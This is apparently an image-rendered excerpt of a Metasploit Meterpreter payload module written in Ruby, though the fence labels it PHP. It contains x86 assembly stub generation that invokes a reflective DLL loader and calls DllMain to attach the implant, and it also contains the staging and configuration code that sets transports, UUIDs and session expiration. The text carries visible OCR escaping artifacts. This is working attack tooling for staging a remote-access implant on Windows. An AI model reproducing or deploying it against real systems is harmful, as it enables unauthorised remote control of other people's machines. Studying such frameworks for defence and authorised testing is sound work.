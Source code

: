 ```php
      'Platform'      \=> 'win',  
      'Arch'          \=> ARCH\_X86,  
      'PayloadCompat' \=> { 'Convention' \=> 'sockedi handleedi -https', },  
      'Stage'         \=> { 'Payload'   \=> "" }  
      ))  
  end  
​  
  def asm\_invoke\_metsrv(opts\={})  
    asm \= %Q^  
        ; prologue  
          dec ebp               ; 'M'  
          pop edx               ; 'Z'  
          call $+5              ; call next instruction  
          pop ebx               ; get the current location (+7 bytes)  
          push edx              ; restore edx  
          inc ebp               ; restore ebp  
          push ebp              ; save ebp for later  
          mov ebp, esp          ; set up a new stack frame  
        ; Invoke ReflectiveLoader()  
          ; add the offset to ReflectiveLoader() (0x????????)  
          add ebx, #{"0x%.8x" % (opts\[:rdi\_offset\] \- 7)}  
          call ebx              ; invoke ReflectiveLoader()  
        ; Invoke DllMain(hInstance, DLL\_METASPLOIT\_ATTACH, config\_ptr)  
          ; offset from ReflectiveLoader() to the end of the DLL  
          add ebx, #{"0x%.8x" % (opts\[:length\] \- opts\[:rdi\_offset\])}  
    ^  
​  
    unless opts\[:stageless\] || opts\[:force\_write\_handle\] \== true  
      asm << %Q^  
          mov \[ebx\], edi        ; write the current socket/handle to the config  
      ^  
    end  
​  
    asm << %Q^  
          push ebx              ; push the pointer to the configuration start  
          push 4                ; indicate that we have attached  
          push eax              ; push some arbitrary value for hInstance  
          call eax              ; call DllMain(hInstance, DLL\_METASPLOIT\_ATTACH, config\_ptr)  
    ^  
  end  
​  
  def stage\_payload(opts\={})  
    stage\_meterpreter(opts) + generate\_config(opts)  
  end  
​  
  def generate\_config(opts\={})  
    ds \= opts\[:datastore\] || datastore  
    opts\[:uuid\] ||= generate\_payload\_uuid  
​  
    \# create the configuration block, which for staged connections is really simple.  
    config\_opts \= {  
      arch:              opts\[:uuid\].arch,  
      null\_session\_guid: opts\[:null\_session\_guid\] \== true,  
      exitfunk:          ds\[:exit\_func\] || ds\['EXITFUNC'\],  
      expiration:        (ds\[:expiration\] || ds\['SessionExpirationTimeout'\]).to\_i,  
      uuid:              opts\[:uuid\],  
      transports:        opts\[:transport\_config\] || \[transport\_config(opts)\],  
      extensions:        \[\],  
      stageless:         opts\[:stageless\] \== true,  
    }.merge(meterpreter\_logging\_config(opts))  
    \# create the configuration instance based off the parameters  
    config \= Rex::Payloads::Meterpreter::Config.new(config\_opts)  
​  
```